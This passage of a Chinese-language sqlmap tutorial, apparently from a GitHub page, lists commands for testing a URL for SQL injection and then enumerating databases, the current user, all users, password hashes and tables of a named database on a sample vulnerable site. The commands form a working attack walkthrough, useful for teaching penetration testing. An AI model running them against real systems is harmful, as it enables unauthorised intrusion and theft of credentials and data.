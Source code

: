 



比如：我之前做的sql测试输入的命令如下:

```
sqlmap.py -u "http://localhost:8080/ECP/HomeBulletinController.do?method=searchBulletinAction&areaCode=120000"
```

如果出现下图中的payload，则证明存在攻击漏洞

![sd](http://p1aoqp63y.bkt.clouddn.com/QQ%E6%88%AA%E5%9B%BE20171221131107.png)



## 5.暴库

#### 曝出所有数据库名称，命令如下

```
C:\Python27\sqlmap>python sqlmap.py -u "http://www.vuln.cn/post.php?id=1" --dbs
```

参数：
--dbs：dbs前面有两条杠



#### 当前使用的数据库

```
C:\Python27\sqlmap>python sqlmap.py -u "http://www.vuln.cn/post.php?id=1" --current-db
```

#### 数据库使用账户

```
C:\Python27\sqlmap>python sqlmap.py -u "http://www.vuln.cn/post.php?id=1" --current-user
```

#### 列出sqlserver所有用户

```
C:\Python27\sqlmap>python sqlmap.py -u "http://www.vuln.cn/post.php?id=1" --users
```

#### 数据库账户与密码

```
C:\Python27\sqlmap>python sqlmap.py -u "http://www.vuln.cn/post.php?id=1" --passwords
```



#### 列出数据库中的表

````
C:\Python27\sqlmap>python sqlmap.py -u "http://www.vuln.cn/post.php?id=1" -D tourdata --tables
````
